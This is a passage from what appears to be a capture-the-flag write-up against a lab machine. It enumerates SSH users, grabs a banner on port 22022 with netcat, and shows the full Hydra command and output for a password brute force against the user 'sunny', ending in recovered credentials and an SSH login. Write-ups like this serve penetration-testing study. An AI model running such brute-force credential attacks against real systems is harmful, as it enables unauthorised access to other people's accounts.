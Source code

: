 ```sh

10177 queries in 230 seconds (44.2 queries / sec)

```


Found 2 ssh users sammy nad sunny

---
#### Enumerating port 22022

```sh
nc -vn 10.10.10.76 22022  
(UNKNOWN) [10.10.10.76] 22022 (?) open
SSH-2.0-OpenSSH_7.5 
```

---
#### Attacking 22022

Using Hydra to Bruteforce password for sunny

```sh
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

```sh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-01 07:56:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 14344234 to do in 1440:12h, 15 active
[STATUS] 150.33 tries/min, 451 tries in 00:03h, 14343949 to do in 1590:15h, 15 active
[STATUS] 135.71 tries/min, 950 tries in 00:07h, 14343450 to do in 1761:29h, 15 active
[STATUS] 130.07 tries/min, 1951 tries in 00:15h, 14342449 to do in 1837:50h, 15 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-01 08:15:11

```

Got creds **sunny:sunday**

Logging in using ssh on port 22022
```sh
ssh sunny@10.10.10.76 -p 22022
```
